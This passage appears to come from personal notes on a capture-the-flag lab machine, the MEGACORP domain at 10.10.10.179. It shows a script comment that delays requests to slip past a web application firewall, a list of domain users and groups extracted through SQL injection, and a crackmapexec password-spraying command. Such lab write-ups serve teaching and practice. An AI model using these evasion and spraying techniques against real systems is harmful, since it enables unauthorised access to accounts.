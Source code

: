 ```
    # Sleep to avoid triggering the WAF
    sleep(3)
```


So only thing to keep in mind like when i got the password i rushed to use it with the userlist i got and wasted my time.

Instead there was another SQL injection which we got to know. Only thing to keep in mind is think out of the box.

```
MEGACORP\Administrator
MEGACORP\Guest
MEGACORP\krbtgt
MEGACORP\DefaultAccount
MEGACORP\Domain Admins
MEGACORP\Domain Users
MEGACORP\Domain Guests
MEGACORP\Domain Computers
MEGACORP\Domain Controllers
MEGACORP\Cert Publishers
MEGACORP\Schema Admins
MEGACORP\Enterprise Admins
MEGACORP\Group Policy Creator Owners
MEGACORP\Read-only Domain Controllers
MEGACORP\Cloneable Domain Controllers
MEGACORP\Protected Users
MEGACORP\Key Admins
MEGACORP\Enterprise Key Admins
MEGACORP\RAS and IAS Servers
MEGACORP\Allowed RODC Password Replication Group
MEGACORP\Denied RODC Password Replication Group
MEGACORP\MULTIMASTER$
MEGACORP\DnsAdmins
MEGACORP\DnsUpdateProxy
MEGACORP\svc-nas
MEGACORP\Privileged IT Accounts
MEGACORP\tushikikatomo
MEGACORP\andrew
MEGACORP\lana
MEGACORP\alice
MEGACORP\test
```
![[Pasted image 20240924020635.png]]
![[Pasted image 20240924034656.png]]

Let's try the password here.
```
crackmapexec smb 10.10.10.179 -u n_user.txt -p password.txt
```
![[Pasted image 20240924035700.png]]
